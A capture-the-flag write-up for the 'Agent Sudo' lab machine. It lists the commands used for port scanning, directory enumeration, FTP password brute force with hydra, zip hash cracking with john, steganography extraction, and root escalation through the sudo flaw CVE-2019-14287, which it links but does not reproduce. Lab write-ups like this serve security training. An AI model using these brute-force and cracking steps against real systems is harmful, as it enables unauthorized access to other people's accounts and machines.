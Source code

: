 # Agent Sudo

## Reconnaissance

IP address : 10.10.105.199

## Scanning & Enumeration

* Nmap Scanning

```shell
nmap -A -T -p- 10.10.105.199
```

the scan result is [here](nmap/all_port)
open port are :
number | service | version
--- |---| ---
21 | ftp | vsftpd 3.0.3
22 | ssh | OpenSSH 7.6p1
80 | http | Apache httpd 2.4.29

* Gobuster Directory Listing

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.105.199
```

didn't found any thing interesting

* Use your Code name ase user Agent
  
We tried A, B ... and found something interesting wih :

```shell
curl --user-agent "C" -L  http://10.10.105.199/
```

![User Agent](img/u-agent.png)

* FTP Brute Force
  
as we know chris password is week we can try to brute force it.

```shell
 hydra  -l chris -P /usr/share/wordlists/rockyou.txt  ftp://10.10.105.199
```

done  the password is cr**tal
we login in to ftp
![FTP login](img/ftp.png)

we found some interesting [files](files)

  -- the text file contain interesting info about J password
  -- We run binwalk on cuttie.png and discoverd interesting stuff : it containt a zip file.

```shell
binwalk -e cutie.png
```

To extract all these [files](files/_cutie.png.extracted)

* crack zip with john
calculate the hash

```shell
zip2john 8702.zip > 8702.hash
```

crack it now

```shell
john 8702.hash
```

password : a**en
The extraction not work with unzip so we uze 7z

```shell
7z e 8702.zip
```

we sound a [message](files/_cutie.png.extracted/To_agentR.txt) with a b64 encrypted section , after decoding : Ar**51

*Decrypt the steg hide now

```shell
steghide extract -sf cute-alien.jpg
```

## Exploitation

* SSH Login

Now we already colleted some user credentials we can you it to login.

![ssh login](img/ssh-login.png)

Now we can grab the user flag

### Let escalate privilege

* [CVE 2019-14287](https://www.exploit-db.com/exploits/47502)
  
The sudo version is vulnerable to CVE 2019-14287

after exploitation we got the root shell

![root shell](img/root-shell.png)